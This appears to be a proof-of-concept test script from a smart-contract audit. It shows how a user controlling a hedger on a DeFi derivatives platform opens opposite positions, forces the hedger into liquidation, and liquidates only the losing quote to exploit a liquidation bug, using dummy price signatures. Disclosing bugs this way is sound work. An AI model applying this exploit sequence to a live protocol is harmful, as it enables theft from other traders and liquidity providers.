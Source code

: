 ```ts

  // open 2 opposite direction positions with user-controlled hedger to exploit them later
  // (positions with slightly different sizes so that at some point the hedger can be liquidated)
  await this.user.sendQuote(limitQuoteRequestBuilder()
    .quantity(decimal(190))
    .price(decimal(10))
    .cva(decimal(10)).lf(decimal(5)).mm(decimal(10))
    .build()
  );
  await this.hedger2.lockQuote(2, 0, decimal(2, 16));
  await this.hedger2.openPosition(2, limitOpenRequestBuilder().filledAmount(decimal(90)).openPrice(decimal(10)).price(decimal(10)).build());

  await this.user.sendQuote(limitQuoteRequestBuilder()
    .positionType(PositionType.SHORT)
    .quantity(decimal(200))
    .price(decimal(10))
    .cva(decimal(10)).lf(decimal(5)).mm(decimal(10))
    .build()
  );
  await this.hedger2.lockQuote(3, 0, decimal(2, 16));
  await this.hedger2.openPosition(3, limitOpenRequestBuilder().filledAmount(decimal(100)).openPrice(decimal(10)).price(decimal(10)).build());

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  var info = await this.hedger2.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // price goes to 5, so user is in a loss of -500, a slight profit of +50 from short position, but controlled hedger is in a -50 loss and 
  // becomes liquidatable
  // user now exploits the bug by liquidating controlled hedger
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummySingleUpnlSig(decimal(-50)),
  );

  // liquidate only quote 2 (which is not profitable for the user)
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummyQuotesPriceSig([2], [5]),
  )

  var liquidated = await context.viewFacet.isPartyBLiquidated(this.hedger2.signer.address, this.user.signer.address);
  console.log("PartyB Liquidated: " + liquidated);

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  var posCount = await this.context.viewFacet.partyAPositionsCount(this.user.getAddress());
  console.log("PartyA positions count: " + posCount);
  var openPositions = await this.context.viewFacet.getPartyAOpenPositions(
    this.user.getAddress(),
    0,
    posCount,
  );
```